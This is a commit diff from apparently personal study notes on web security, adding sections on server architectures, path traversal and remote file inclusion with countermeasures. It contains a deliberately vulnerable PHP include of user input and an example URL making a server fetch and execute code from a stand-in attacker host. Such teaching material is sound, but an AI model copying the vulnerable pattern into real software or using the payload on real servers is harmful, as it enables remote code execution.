

Before and after one commit to cheukwing/mc3-notes, a LaTeX document (network_and_web_security/network_and_web_security.tex): part of page 28 of 28 before the commit and two parts of pages 28 and 29 of 30 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
security week 5 first part

```diff
--- a/network_and_web_security/network_and_web_security.tex
+++ b/network_and_web_security/network_and_web_security.tex
@@ -1108,3 +1108,60 @@ Countermeasures:
   \item Use \texttt{Referrer-Policy} response header to control the sending of the \texttt{Referer} header.
 \end{itemize}
 
+\section{Server-side Security}
+While insider threats are very dangerous and social engineering gets a lot of press, hacking and external attacks are the cause of most data breaches.
+Discovery and containment do not stop breaches - most breaches are discovered only after 90\% of the data has been stolen.
+
+\subsection{Web Server Architectures}
+\begin{itemize}
+  \item \textbf{CGI Scripting}:
+    \begin{itemize}
+      \item Server passes requests to an appropriate executable.
+      \item Headers passes as environment variables or arguments, data passed via stdin/out.
+      \item Easy to deploy, dated.
+    \end{itemize}
+  \item \textbf{Server-side Scripting}:
+    \begin{itemize}
+      \item Web server embeds database, or directly executes scripts.
+      \item Faster and more powerful, but more dangerous (can reconfigure server).
+    \end{itemize}
+  \item \textbf{Fast CGI}:
+    \begin{itemize}
+      \item Persistent process handles multiple requests.
+      \item Web server uses TCP or local sockets to talk to application server (can be remote).
+      \item Load balancing.
+    \end{itemize}
+  \item \textbf{Reverse Proxy}:
+    \begin{itemize}
+      \item Lean, fast, secure server handles static content, TLS termination, etc.
+      \item Application server focuses on application logic.
+    \end{itemize}
+\end{itemize}
+
+\subsection{Path Traversal}
+Attacker input can cause the server to disclose an unintended resource (e.g. \texttt{/etc/passwd}).
+The server identifies a resource based on user input, so the attacker requests files likely to exist and unlikely to exist, comparing the responses - the attacker can guess the path to a private resource in the URL.
+
+Countermeasures:
+\begin{itemize}
+  \item Special \texttt{www} user account for web app server with access only to public files.
+  \item \texttt{chroot} jail to sandbox the web app process to a virtual file system.
+  \item Access control restrictions.
+\end{itemize}
+
+\subsection{Remove File Inclusion}
+We may include in our \texttt{index.php}:
+\begin{verbatim}
+  $nextpage = $_REQUEST["subpage"];
+  include($nextpage.".php");
+\end{verbatim}
+with the intended usage of \texttt{subpage} in the URL being a page on the site.
+If the \texttt{php.ini} settings have \texttt{allow\_url\_fopen = 1}, then file operations can follow urls:
+\begin{enumerate}
+  \item Attacker can put in the url \texttt{...subpage=http://attacker.com/evil}.
+  \item The server includes, and therefore executes, the external file.
+\end{enumerate}
+
+To be more secure, we should only allow \texttt{subpage} to have a value from a whitelist of allowed page names, preventing any arbitrary input.
+
+\subsection{Server-side Request Forgery}
@@ -1110,0 +1181 @@ Countermeasures:
+  \item \textbf{Insecure direct object references} - the application exposes a reference to an internal implementation object (user id), the attacker can guess a valid id to target a different user.
```
Also changed, not shown: graphics/graphics.tex (+2 -1 lines), network_and_web_security/network_and_web_security.tex (33 more changed lines).
